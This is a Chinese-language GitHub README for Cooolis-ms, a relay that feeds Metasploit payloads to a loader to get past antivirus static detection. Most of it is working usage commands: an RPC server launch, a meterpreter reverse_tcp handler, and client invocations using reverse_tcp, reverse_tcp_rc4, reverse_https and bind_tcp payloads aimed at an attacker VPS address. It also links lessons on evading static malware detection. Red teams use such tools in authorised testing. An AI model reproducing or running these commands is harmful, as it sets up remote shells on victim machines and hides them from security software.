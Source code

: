 # Cooolis-ms

![README](./Pic/view-1.png)

Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。

加载器执行流程：连接Cooolis-Server，Cooolis-Server连接Metasploit RPC服务端，取回Payload然后发送回加载器

核心技术：
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## 该项目的优点

- 体积小（>=100KB）
- 支持Metasploit所有Payload
- 参数设置方便
- 单文件
- 架构分离

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)

## 如何安装

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## 如何使用

假设这是我的VPS： 10.20.56.41

### 第一步 启动Metasploit RPC服务端

**启动Metasploit RPC服务端：**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```

![](img/2020-08-05-11-53-35.png)

### 第二步 启动Cooolis-ms服务端

使得它连接到RPC，并且监听一个端口，用来发送载荷：

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```

![](img/2020-08-05-11-54-24.png)

### 第三步 配置Metasploit监听器


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```

![](img/2020-08-05-11-57-03.png)

### 第四步 启动Cooolis-ms客户端


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -s LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```

![](img/2020-08-05-12-08-07.png)

Q&A : [是否支持RC4加密的Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -s LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -s LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -s RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* ... 其他自行发挥


**注意：Cooolis-ms.exe的-s参数要与msf的配置对应。**

## 关于其他

如果你觉得这个项目不错，那就给一个Star～


## issue

[我要提交建议或问题](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
